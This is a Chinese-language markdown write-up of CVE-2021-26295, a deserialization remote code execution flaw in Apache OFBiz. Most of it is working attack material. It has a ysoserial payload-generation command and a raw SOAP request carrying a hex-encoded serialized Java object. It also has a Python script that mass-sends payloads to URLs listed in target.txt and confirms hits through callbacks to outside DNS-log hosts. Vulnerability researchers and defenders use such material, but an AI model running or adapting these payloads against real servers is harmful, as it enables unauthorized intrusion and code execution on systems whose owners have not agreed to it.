

# Apache OFBiz RMI反序列化任意代码执行（CVE-2021-26295）

Apache OFBiz是一个电子商务平台，用于构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类应用系统。2021年3月22日 Apache OFBiz官方发布安全更新，修复了一处由RMI反序列化造成的远程代码执行漏洞。攻击者可构造恶意请求，触发反序列化，从而造成任意代码执行，控制服务器.

影响版本：

Apache OFBiz < 17.12.06


```
java -jar ysoserial.jar URLDNS  http://kzjtft.dnslog.cn >1.ot
```

```
import binascii
filename = '1.ot'
with open(filename, 'rb') as f:
    content = f.read()
print(binascii.hexlify(content))

```

poc:

```
GET /webtools/control/SOAPService HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 836

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
  <soapenv:Header/>
  <soapenv:Body>
  <ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <cus-obj>aced00057372000c6a6176612e6e65742e55524c962537361afce47203000749000868617368436f6465490004706f72744c0009617574686f726974797400124c6a6176612f6c616e672f537472696e673b4c000466696c6571007e00014c0004686f737471007e00014c000870726f746f636f6c71007e00014c000372656671007e00017870ffffffffffffffff7400177878787878782e3768693376322e646e736c6f672e636e74000071007e0003740004687474707078</cus-obj>
            </map-Key>
            <map-Value>
                <std-String value="http://xxxxxx.7hi3v2.dnslog.cn"/>
            </map-Value>
        </map-Entry>
    </map-HashMap>
  </ser>
  </soapenv:Body>
  </soapenv:Envelope>
```

poc.py:

```py
#coding:utf-8
import binascii
import os
import requests
import urllib3
import uuid
urllib3.disable_warnings()
def main():
    id = requests.get("https://dns.xn--9tr.com/new_gen").text.split(".")[0]
    if(not os.path.exists("target.txt")):
        exit("put url in target.txt! ")
    if(not os.path.exists("ysoserial.jar")):
        exit("where is ysoserial.jar?")
    with open("target.txt")as f:
        urls = f.readlines()
    for url in urls:
        url = url.strip()
        uid = uuid.uuid1().hex
        cmd = "java -jar .\ysoserial.jar URLDNS http://{0}.{1}.y.dns1.tk > tmp".format(uid,id)
        r = os.popen(cmd)   
        r.close()  
        with open("tmp",'rb') as f:
            payload = binascii.hexlify(f.read())
        data = '''
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
            <soapenv:Header/>
            <soapenv:Body>
            <ser>
        <map-HashMap>
            <map-Entry>
                <map-Key>
                    <cus-obj>{0}</cus-obj>
                </map-Key>
                <map-Value>
                    <std-String value="http://baidu.com"/>
                </map-Value>
            </map-Entry>
        </map-HashMap>
            </ser>
            </soapenv:Body>
            </soapenv:Envelope>
            '''.format(payload.decode())
        headers = {
            "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"
        }
        url = url+"/webtools/control/SOAPService"
        try:
            requests.post(url,data=data,verify=False,headers=headers,timeout=5)
            requests.post(url,data=data,verify=False,headers=headers,timeout=5)
            requests.post(url,data=data,verify=False,headers=headers,timeout=5)
        except:
            pass
        dnslogresurl = "https://dns.xn--9tr.com/"+id
        if(uid in requests.get(dnslogresurl).text):
            print("[+] {0} 漏洞存在".format(url))
        else:
            print("[-] {0} 漏洞不存在".format(url))
    print("[+] 请到 {0} 查看结果".format(dnslogresurl))

if __name__ == "__main__":
    main()
```




ref:

* https://issues.apache.org/jira/projects/OFBIZ/issues/OFBIZ-12167?filter=doneissues
* https://www.o2oxy.cn/3271.html
* https://github.com/yumusb/CVE-2021-26295-POC
* https://forum.ywhack.com/thread-115305-1-7.html